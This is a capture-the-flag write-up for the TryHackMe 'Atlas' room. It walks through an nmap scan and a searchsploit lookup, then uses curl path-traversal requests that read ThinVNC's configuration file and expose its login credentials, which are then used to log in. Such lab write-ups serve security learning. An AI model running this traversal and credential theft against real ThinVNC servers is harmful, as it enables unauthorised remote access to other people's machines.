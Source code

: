 # Atlas


Type: Guided
Room Link: https://tryhackme.com/room/atlas

## Enumeration

IP: 10.10.208.37

Nmap

```
nmap -p- -v 10.10.208.37 -Pn

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
7680/tcp open  pando-pub
8080/tcp open  http-proxy
```

## Port 8080

ThinVNC

```
searchsploit thinvnc
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
ThinVNC 1.0b1 - Authentication Bypass                                            | windows/remote/47519.py
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

https://redteamzone.com/ThinVNC/

```
curl 'http://10.10.208.37:8080/../../../../../ThinVnc.ini' --proxy 127.0.0.1:8080
curl 'http://10.10.208.37:8080/asd/../../ThinVnc.ini' --path-as-is

[Authentication]
Unicode=0
User=Atlas
Password=H0ldUpTheHe@vens
Type=Digest
[Http]
Port=8080
Enabled=1
[Tcp]
Port=
[General]
AutoStart=1
```

![image](https://user-images.githubusercontent.com/5285547/135341220-4180571f-aea9-4961-81cc-86dfb7caa1de.png)

Now we can login to the service 

![image](https://user-images.githubusercontent.com/5285547/135341483-7dc5da86-1647-4933-9c89-f679a1e70314.png)

```
Atlas:H0ldUpTheHe@vens
```

Connect to localhost pc

![image](https://user-images.githubusercontent.com/5285547/135341603-c419269b-8608-4188-8e47-4bc4e146512b.png)

![image](https://user-images.githubusercontent.com/5285547/135341615-ba41ba22-4a67-44e5-8cf3-216c47055b21.png)


